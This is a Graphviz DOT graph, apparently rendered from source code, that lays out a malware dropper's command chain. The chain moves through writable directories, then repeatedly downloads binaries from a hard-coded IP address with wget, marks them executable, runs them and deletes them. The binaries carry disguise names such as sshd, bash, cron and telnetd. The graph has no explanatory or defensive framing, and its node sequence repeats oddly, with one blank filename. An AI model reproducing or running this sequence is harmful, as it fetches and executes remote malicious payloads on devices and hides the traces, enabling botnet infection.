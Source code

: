 digraph {
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 10 [label="||,"];
10 [label="wget http://185.148.39.193/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 28 [label="||,"];
28 [label="wget http://185.148.39.193/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 46 [label="||,"];
46 [label="wget http://185.148.39.193/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 64 [label="||,"];
64 [label="wget http://185.148.39.193/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 82 [label="||,"];
82 [label="wget http://185.148.39.193/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 100 [label="||,"];
100 [label="wget http://185.148.39.193/pstree "];
100 -> 102 [label=";,"];
102 [label="chmod +x pstree "];
102 -> 104 [label=";,"];
104 [label="./pstree "];
104 -> 106 [label=";,"];
106 [label="rm -rf pstree "];
106 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 118 [label="||,"];
118 [label="wget http://185.148.39.193/dropbear "];
118 -> 120 [label=";,"];
120 [label="chmod +x dropbear "];
120 -> 122 [label=";,"];
122 [label="./dropbear "];
122 -> 124 [label=";,"];
124 [label="rm -rf dropbear "];
124 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 136 [label="||,"];
136 [label="wget http://185.148.39.193/wget "];
136 -> 138 [label=";,"];
138 [label="chmod +x wget "];
138 -> 140 [label=";,"];
140 [label="./wget "];
140 -> 142 [label=";,"];
142 [label="rm -rf wget "];
142 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 154 [label="||,"];
154 [label="wget http://185.148.39.193/cron "];
154 -> 156 [label=";,"];
156 [label="chmod +x cron "];
156 -> 158 [label=";,"];
158 [label="./cron "];
158 -> 160 [label=";,"];
160 [label="rm -rf cron "];
160 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 172 [label="||,"];
172 [label="wget http://185.148.39.193/ftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x ftp "];
174 -> 176 [label=";,"];
176 [label="./ftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf ftp "];
178 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 190 [label="||,"];
190 [label="wget http://185.148.39.193/pftp "];
190 -> 192 [label=";,"];
192 [label="chmod +x pftp "];
192 -> 194 [label=";,"];
194 [label="./pftp "];
194 -> 196 [label=";,"];
196 [label="rm -rf pftp "];
196 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 208 [label="||,"];
208 [label="wget http://185.148.39.193/sh "];
208 -> 210 [label=";,"];
210 [label="chmod +x sh "];
210 -> 212 [label=";,"];
212 [label="./sh "];
212 -> 214 [label=";,"];
214 [label="rm -rf sh "];
214 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 226 [label="||,"];
226 [label="wget http://185.148.39.193/  "];
226 -> 228 [label=";,"];
228 [label="chmod +x   "];
228 -> 230 [label=";,"];
230 [label="./  "];
230 -> 232 [label=";,"];
232 [label="rm -rf   "];
232 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 244 [label="||,"];
244 [label="wget http://185.148.39.193/apache2 "];
244 -> 246 [label=";,"];
246 [label="chmod +x apache2 "];
246 -> 248 [label=";,"];
248 [label="./apache2 "];
248 -> 250 [label=";,"];
250 [label="rm -rf apache2 "];
250 -> 252 [label=";,"];
252 [label="cd /tmp "];
252 -> 252
254 [label="cd /var/run "];
254 -> 256 [label="||,"];
256 [label="cd /mnt "];
256 -> 258 [label="||,"];
258 [label="cd /root "];
258 -> 260 [label="||,"];
260 [label="cd / "];
260 -> 262 [label="||,"];
262 [label="wget http://185.148.39.193/telnetd "];
262 -> 264 [label=";,"];
264 [label="chmod +x telnetd "];
264 -> 266 [label=";,"];
266 [label="./telnetd "];
266 -> 267 [label=";,"];
}
